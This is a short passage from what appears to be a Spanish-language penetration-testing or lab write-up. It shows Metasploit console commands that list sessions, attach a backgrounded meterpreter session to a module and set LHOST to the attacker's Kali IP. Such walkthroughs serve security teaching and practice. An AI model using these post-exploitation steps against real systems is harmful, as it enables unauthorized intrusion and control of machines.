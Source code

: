     <img src="../img/Pasted_image_20240818224225.png" width="500">
</p>

Cambio las opciones, tengo que introducir la sesión del `meterpreter` que está en segundo plano y comprobara si la IP de la mi máquina KALI es la IP correspondiente, en este caso, no corresponde, por lo que la cambio también.
```
sessions -l # Para saber la ID de la sesión en segundo plano
set SESSION ID_session
set LHOST 10.2.37.7
show options
```
<p align="center">
    <img src="../img/Pasted_image_20240818224533.png" width="500">
</p>
